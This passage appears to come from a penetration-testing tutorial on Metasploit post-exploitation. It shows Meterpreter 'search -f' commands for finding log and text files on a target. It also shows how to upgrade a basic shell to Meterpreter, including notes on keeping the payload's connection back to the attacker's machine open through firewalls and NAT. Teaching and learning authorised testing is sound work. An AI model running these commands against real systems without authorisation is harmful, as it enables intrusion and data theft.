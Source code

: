 ```
search -f *.log
```

- Search for Multiple Files:

```
search -f "*.txt"
```

This will search for all text files (.txt) on the target system.

Note: *The ```search -f``` command is part of Meterpreter’s suite of file system utilities, which includes commands for listing directories, downloading, uploading, and manipulating files, providing a comprehensive set of tools for post-exploitation tasks.*

*Upgrading to Meterpreter during a session can significantly enhance your control over the target system by providing a more feature-rich environment compared to a basic shell. If you have a basic shell session on the target system, you can use Metasploit's built-in upgrade command to switch to Meterpreter.*

- First, establish a basic shell session on the target system. This could be through an initial exploit or payload. In Metasploit, list your active sessions and interact with the basic shell session:

```
sessions
sessions -i <session_id>
```

- Use the upgrade command to switch to a Meterpreter session:

```
upgrade
```

Alternatively, the ```post/multi/manage/shell_to_meterpreter``` module in Metasploit is designed to upgrade a standard shell session to a Meterpreter session. This module is used to convert a basic command shell (like a standard shell session obtained through exploitation) into a Meterpreter session, which provides more advanced functionality and control.

After gaining a shell session, you can use this module to upgrade it. Run the following commands:

```
use post/multi/manage/shell_to_meterpreter
```

You need to specify the session ID of the shell session you want to upgrade (optionally, you can configure additional settings if required by the module):

```
set SESSION <session_id>
```

Execute the module to perform the upgrade:

```
run
```

Note: *This module relies on the compatibility of the shell you’re upgrading. Some shells might not support the upgrade process due to their nature or the limitations of the environment. Also, ensure that network configurations or firewall rules do not interfere with the Meterpreter payload's ability to establish a connection. If the target network is segmented (e.g., through VLANs or subnetting), ensure that the Meterpreter payload can communicate with the attacker's machine. Network segmentation might isolate parts of the network, potentially blocking the connection. Furthermore, ensure that the ports used by the Meterpreter payload (usually set by the payload configuration) are open and not blocked by any firewall rules on the target or between the target and the attacker. If the target machine is behind NAT, the NAT configuration must allow for the necessary port forwarding or address translation to enable communication between the target and the attacker’s machine.*
